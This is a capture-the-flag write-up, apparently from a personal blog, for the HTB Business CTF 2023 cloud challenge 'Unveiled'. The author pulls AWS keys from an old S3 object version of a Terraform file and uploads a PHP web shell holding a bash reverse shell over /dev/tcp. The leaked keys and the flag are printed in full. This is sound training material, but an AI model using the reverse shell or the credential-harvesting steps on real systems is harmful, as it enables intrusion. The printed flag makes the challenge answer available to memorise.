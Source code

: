 ```yaml
---
layout: post
title: HTB Business CTF 2023 Writeup - Cloud - Unveiled
date: 2023-07-18
type: post
tags:
- Writeup
- Hacking
- BusinessCTF
- CTF
permalink: /2023/07/HTBBusinessCTF/CloudUnveiled
img: 2023/07/HTBBusinessCTF/Unveiled/Unveiled.jpg
---
```


I this challenge I had to find AWS credentials in an exposed S3 buckets. And use them to upload a reverse shell.

> Easy

The challenged consisted of a simple static website. When I looked at the traffic in Caido, I saw that it was trying to load some JavaScript from `s3.unveiled.htb`. I added that domain to my hosts file and configure my `aws` cli to use it.

```bash
$ alias aws='aws --endpoint-url http://s3.unveiled.htb'
```

With the cli configured, I tried listing buckets and files.

```bash
$ aws s3 ls                                            
2023-07-16 07:54:09 unveiled-backups
2023-07-16 07:54:09 website-assets

$ aws s3 ls unveiled-backups
index.html
main.tf

$ aws s3 ls website-assets                  

An error occurred (InvalidClientTokenId) when calling the ListObjectsV2 operation: The security token included in the request is invalid
```

There were two buckets. I could not read what `website-assets` contained. But I had access to `unveiled-backups`. I downloaded the two files it contained.


```bash
$ aws s3api get-object --bucket unveiled-backups --key index.html index.html
$ aws s3api get-object --bucket unveiled-backups --key main.tf main.tf
```

The HTML file was the code for the site. The `main.tf` file contained the Terraform code to provision the two buckets.

```
variable "aws_access_key"{
  default = ""
}
variable "aws_secret_key"{
  default = ""
}

provider "aws" {
  access_key=var.aws_access_key
  secret_key=var.aws_secret_key
}

resource "aws_s3_bucket" "unveiled-backups" {
  bucket = "unveiled-backups"
  acl    = "private"
  tags = {
    Name        = "S3 Bucket"
    Environment = "Prod"
  }
  versioning {
    enabled = true
  }
}

resource "aws_s3_bucket_acl" "bucket_acl" {
  bucket = aws_s3_bucket.unveiled-backups.id
  acl    = "public-read"
}

resource "aws_s3_bucket" "website-assets" {
  bucket = "website-assets"
  acl    = "private"
}

data "aws_iam_policy_document" "allow_s3_access" {
  statement {
    principals {
      type        = "AWS"
      identifiers = ["683633011377"]
    }

    actions = [
      "s3:GetObject",
      "s3:ListBucket",
      "s3:PutObject"
    ]

    resources = [
      aws_s3_bucket.website-assets.arn,
      "${aws_s3_bucket.website-assets.arn}/*",
    ]
  }

resource "aws_s3_bucket_policy" "bucket_policy" {
  bucket = aws_s3_bucket.website-assets.id
  policy = data.aws_iam_policy_document.allow_s3_access.json
}
```

Sadly, it did not contain any credentials. I requested the list of versions from AWS.

```bash
$ aws s3api list-object-versions --bucket unveiled-backups
```

```json
{
    "Versions": [
        ...
        {
            "ETag": "\"9c9e9d85b28ce6bbbba93e0860389c65\"",
            "Size": 1107,
            "StorageClass": "STANDARD",
            "Key": "main.tf",
            "VersionId": "a3156f08-f993-4dbe-8e93-cc5495af3309",
            "IsLatest": true,
            "LastModified": "2023-07-16T11:54:11+00:00",
            "Owner": {
                "DisplayName": "webfile",
                "ID": "75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a"
            }
        },
        {
            "ETag": "\"4947c773e44f5973a9c3d37f24cb8e63\"",
            "Size": 1167,
            "StorageClass": "STANDARD",
            "Key": "main.tf",
            "VersionId": "26d116f4-4977-43d9-9f47-be4ff730fbf8",
            "IsLatest": false,
            "LastModified": "2023-07-16T11:54:11+00:00",
            "Owner": {
                "DisplayName": "webfile",
                "ID": "75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a"
            }
        }
    ]
}
```

There were two versions of the `main.tf` file. I extracted the older version.

```bash
$ aws s3api get-object --bucket unveiled-backups --key main.tf main.tf --version-id 26d116f4-4977-43d9-9f47-be4ff730fbf8

$ cp main.tf unveiled-backups/mainWithCreds.tf

$ diff unveiled-backups/mainWithCreds.tf unveiled-backups/main.tf 
2c2
<   default = "AKIA6CFMOGFLAHOPQTMA"
---
>   default = ""
5c5
<   default = "tLK3S3CNsXfj0mjPsIH2iCh5odYHMPDwSVxn7CB5"
---
>   default = ""
```

This one has credentials in it. I configured the cli to use them.

```bash
$ aws configure                                                                                                         
AWS Access Key ID [****************MDFE]: AKIA6CFMOGFLAHOPQTMA
AWS Secret Access Key [****************ue6g]: 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
Default region name [us-east-1]: 
Default output format [json]: 


$ aws s3 ls website-assets
2023-07-16 07:54:10      91790 background.jpg
2023-07-16 07:54:10       4372 index.html
```

This did not give me much more. I tried to find what else I could do with the credentials I had. Eventually I found that I could write into the bucket. 

I created a small PHP script and pushed it to the bucket.

```bash
$ cat test.php 
<?php
echo ('IN');

$ aws s3 cp test.php s3://website-assets/
upload: ./test.php to s3://website-assets/test.php
```

I tried accessing the file through a browser. I worked.

![RCE](/assets/images/2023/07/HTBBusinessCTF/Unveiled/RCE.png "RCE")

I modified the script to launch a reverse shell.

```php
<?php
`bash -c 'bash -i >& /dev/tcp/10.10.14.54/4444 0>&1'`;
```

I copied it to the server, access it and got a shell on my netcat listener.

From there, I just had to look around and find the flag.

```bash
www-data@unveiled:/var/www/html$ pwd
pwd
/var/www/html

www-data@unveiled:/var/www/html$ cd ..
cd ..

www-data@unveiled:/var/www$ ls
flag.txt
html

www-data@unveiled:/var/www$ cat flag.txt
cat flag.txt
HTB{th3_r3d_pl4n3ts_cl0ud_h4s_f4ll3n}
```